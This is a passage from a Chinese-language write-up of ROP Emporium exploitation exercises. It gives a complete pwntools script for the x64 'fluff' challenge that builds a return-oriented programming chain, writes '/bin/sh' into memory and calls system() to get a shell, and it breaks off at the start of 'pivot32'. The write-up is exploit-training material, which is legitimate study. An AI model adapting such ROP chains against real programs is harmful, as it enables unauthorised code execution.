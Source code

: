 ## fluff

一樣改為 x64，不過用 ROPgadget 找 gadget 要加 --depth 才可以找到比較長的 gadget

```$ ROPgadget --binary ./fluff --depth 30 > gad```

最終完整 payload

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
r = process('/tmp/p/fluff')

trash = 'a'*40
system_plt = 0x4005e0
bss = 0x00602000-0x100
pop_rdi_ret = 0x00000000004008c3
mov_dr10_r11 = 0x000000000040084e
# mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
xchg_r11_r10 = 0x000000000040083b
#  mov edi, 0x601050 ; xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
xor_r11_r11 = 0x0000000000400820
# pop r15 ; xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
xor_r11_r12 = 0x000000000040082d
# pop r14 ; xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
pop_r12 = 0x0000000000400832

payload = flat([ pop_r12, bss, xor_r11_r11, 0, 0, xor_r11_r12, 0, 0 ])
payload+= flat([ xchg_r11_r10, 0,  ])
payload+= flat([ pop_r12, '/bin/sh\x00', xor_r11_r11, 0, 0, xor_r11_r12, 0, 0 ])
payload+= flat([ mov_dr10_r11, 0, 0, pop_rdi_ret, bss, system_plt ])

r.sendline(trash + payload)

r.interactive()
```

## pivot32

執行程式樣子
```
$ ./pivot32
pivot by ROP Emporium
32bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0xf75e6f08
Send your second chain now and it will land there

```
